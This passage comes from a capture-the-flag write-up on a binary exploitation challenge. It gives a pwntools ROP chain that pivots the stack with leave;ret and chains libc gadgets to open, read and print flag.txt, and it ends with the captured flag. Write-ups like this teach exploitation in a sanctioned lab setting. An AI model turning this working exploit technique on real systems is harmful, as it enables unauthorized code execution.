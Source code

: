 The `\n` is from `payload`. This means we get code execution now. Let's build a ROPchain and get flag now:

```python
leave_ret = 0x00000000004013bc
pop_rax = 0x000000000003a738 + libc.address
pop_rdi = 0x0000000000021112 + libc.address
pop_rsi = 0x00000000000202f8 + libc.address
pop_rdx = 0x0000000000001b92 + libc.address
syscall = 0x00000000000bc3f5 + libc.address

rop = flat(
    pop_rax, 2,
    pop_rdi, 0x4040e0,
    pop_rsi, 0,
    pop_rdx, 0,
    syscall,

    pop_rdi, 3,
    pop_rsi, 0x404a00,
    pop_rdx, 0x100,
    libc.sym['read'],

    pop_rdi, 1,
    libc.sym['write'],
    b'flag.txt\x00'
    )
payload = p64(leave_ret) + rop        # Add ROPchain to payload
p.sendline(payload)
p.sendline(f'{stdout + 0x8}'.encode())
p.sendline(f'{leave_ret}'.encode())
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `ictf{pivoting_that_stack_since_2016_9bb2f39a}`